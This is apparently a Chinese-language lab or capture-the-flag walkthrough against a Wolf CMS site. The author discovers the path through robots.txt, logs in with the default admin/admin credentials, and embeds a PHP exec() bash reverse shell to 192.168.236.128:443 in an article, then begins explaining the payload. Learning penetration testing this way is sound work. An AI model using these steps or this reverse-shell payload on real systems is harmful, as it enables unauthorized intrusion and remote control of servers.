 robots.txt :


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114649747-1195912403.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114649747-1195912403.png)


给了一个Dissalow：/wolfcms，尝试一下访问这个路由，尝试访问发现真的有


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114654684-1182468691.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114654684-1182468691.png)


点了一圈没有什么发现，网页都是一些静态资源，去网上搜索一下wolfcms有没有什么框架漏洞


[Wolf CMS \- Arbitrary File Upload / Execution \- PHP webapps Exploit](https://github.com)


这里发现一个长得很像登陆界面的url


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114702205-269121005.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114702205-269121005.png)



```
http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/
```

确实跳转到了一个登录页


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114709385-293052887.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114709385-293052887.png)


弱密码U/P：admin admin进入wolfcms的后台


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114720121-1276733372.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114720121-1276733372.png)


### 反向连接shell


在登录wolfcms后台之后随便点点，发现有很多代码执行和文件上传的位置，比如Home Page里面就可以填写php代码


在Articles中嵌入



```
php</span exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.236.128/443 0>&1'");?>
```

来分析一下这个反向连接shell


`exec()` php的内置函数，用于执行外部程序 基础语法：exec(command,output,return\_var) (命令，存储命令的输出，返回状态码)


`/bin/bash` Linux系统中的Bash shell的路径 /bin/bash是Bash shell的可执行文件

